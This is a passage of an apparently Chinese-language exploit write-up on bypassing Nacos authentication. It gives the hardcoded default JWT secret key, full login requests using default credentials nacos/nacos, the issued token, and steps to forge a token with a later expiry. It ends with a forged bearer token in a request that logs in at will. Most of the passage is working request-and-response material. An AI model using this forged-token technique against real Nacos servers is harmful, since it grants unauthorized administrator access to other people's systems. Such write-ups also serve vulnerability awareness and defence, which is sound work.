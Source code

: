 ```
nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789
```

如果采用默认的用户名密码登陆，请求包如下

```
POST /nacos/v1/auth/users/login HTTP/1.1
Host: ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 29

username=nacos&password=nacos
```

会发现回显如下

```
HTTP/1.1 200 
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwNTA2NzMwN30.ffm1aAW-Lkn0KbVOFO5IWUvRrh8fJblLVf4Jwf4Lcbo
Content-Type: application/json;charset=UTF-8
Date: Fri, 12 Jan 2024 08:48:27 GMT
Connection: close
Content-Length: 162

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwNTA2NzMwN30.ffm1aAW-Lkn0KbVOFO5IWUvRrh8fJblLVf4Jwf4Lcbo","tokenTtl":18000,"globalAdmin":true}
```

放到`https://jwt.io/`下解密。exp可以用`https://tool.lu/timestamp/`unix时间戳生成。

```
{
  "sub": "nacos",
  "exp": 1705067307
}
```

根据`security.key`的硬编码值`SecretKey012345678901234567890123456789012345678901234567890123456789`，和一个晚于当前时间的时间戳。生成base64编码。

![image-20240112170234236](/images/image-20240112170234236.png)

放入到请求包中可随意登陆

```
POST /nacos/v1/auth/users/login HTTP/1.1
Host: ip
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwNzcyODIyN30.Dx2F0oNSEbWTtxszvifb6lMsqwuCY9S2VQilA03ejCg
Connection: close
```